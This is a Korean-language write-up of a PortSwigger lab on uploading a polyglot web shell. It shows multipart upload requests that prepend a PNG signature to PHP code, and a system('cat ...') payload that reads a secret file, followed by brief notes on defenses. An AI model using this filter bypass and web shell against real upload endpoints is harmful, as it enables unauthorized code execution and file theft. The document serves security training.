




+++
date = '2026-10-06T20:40:00+09:00'
draft = false
title = "[Write-up] PortSwigger - Remote code execution via polyglot web shell upload"
summary = "이미지 내용 검사를 통과한 파일이 PHP로 실행되는 과정을 PNG 시그니처를 사용한 실습 기록으로 확인하는 File Upload 풀이"
toc = true
tags = ["File Upload", "Web Shell", "PortSwigger", "Practitioner"]
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)

> 

이 랩은 업로드한 파일의 내용으로 이미지 여부를 검사한다. 이 검사를 통과하면서 PHP 코드도 실행되는 파일을 업로드해 `/home/carlos/secret`의 내용을 제출하는 것이 목표다.

실습 계정은 `wiener:peter`다.

### File Upload 진단

먼저 주어진 계정으로 로그인하여 업로드 요청을 확인한다.

```text
POST /my-account/avatar HTTP/2
Host: 0a40008203462a4d81d72f17008100e1.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4GLBN4t80jPJSC5n
...

------WebKitFormBoundary4GLBN4t80jPJSC5n
Content-Disposition: form-data; name="avatar"; filename="fake-image.png"
Content-Type: image/png

image
------WebKitFormBoundary4GLBN4t80jPJSC5n
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary4GLBN4t80jPJSC5n
Content-Disposition: form-data; name="csrf"

FktqmjDlgCmPnGnnGzCl4rOZkk4tiLP9
------WebKitFormBoundary4GLBN4t80jPJSC5n--
```

위 요청에서 확장자는 `.png` 이지만 “Error: file is not a valid image Sorry, there was an error uploading your file.” 응답이 내려온다.

파일 내용에 따라 거부되는 것을 확인했으므로, PHP 코드 앞에 PNG 시그니처를 넣어 다시 전송한다. 아래의 `[PNG 시그니처 8바이트]` 위치에 실제 바이트 `89 50 4E 47 0D 0A 1A 0A`를 넣었다.

```text
------WebKitFormBoundaryBgRBJkKTRjE4nMtm
Content-Disposition: form-data; name="avatar"; filename="fake-image.php"
Content-Type: image/png

[PNG 시그니처 8바이트]
<?php phpinfo();?>
------WebKitFormBoundaryBgRBJkKTRjE4nMtm
```

이번에는 업로드가 성공한다. `/files/avatars/fake-image.php`에 접근하면 PNG 시그니처 뒤에 PHP 정보 페이지가 반환되어 실행 여부를 확인할 수 있다.



---

## 익스플로잇

앞선 우회 방식을 사용해 `/home/carlos/secret` 파일을 읽는 코드를 업로드한다.

```text
------WebKitFormBoundaryBgRBJkKTRjE4nMtm
Content-Disposition: form-data; name="avatar"; filename="fake-image.php"
Content-Type: image/png

[PNG 시그니처 8바이트]
<?php system("cat /home/carlos/secret");?>
------WebKitFormBoundaryBgRBJkKTRjE4nMtm
```

업로드한 파일을 조회하면 랩에서 지정한 파일 내용이 반환된다.



확인한 문자열을 제출하면 실습이 완료된다.



---

## 정리

이 풀이에서는 파일 앞부분의 PNG 시그니처로 내용 검사를 통과한 뒤, `.php`로 저장된 파일에서 PHP 실행 결과를 확인했다. 내용을 검사하는 단계와 실행할 처리기를 선택하는 단계가 서로 다른 기준을 사용한 것이다.

[공식 풀이](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)는 정상 JPEG의 메타데이터에 PHP 코드를 넣어 두 형식의 처리가 가능한 파일을 만든다. 대응에서는 실제 이미지 구조를 검증하고 필요한 이미지 데이터로 재생성하며, 사용자 파일이 저장되는 경로의 코드 실행도 차단한다.

유형별 원리와 다른 실습은 [File Upload Lab](/lab/portswigger-file-upload/)에 정리했다.
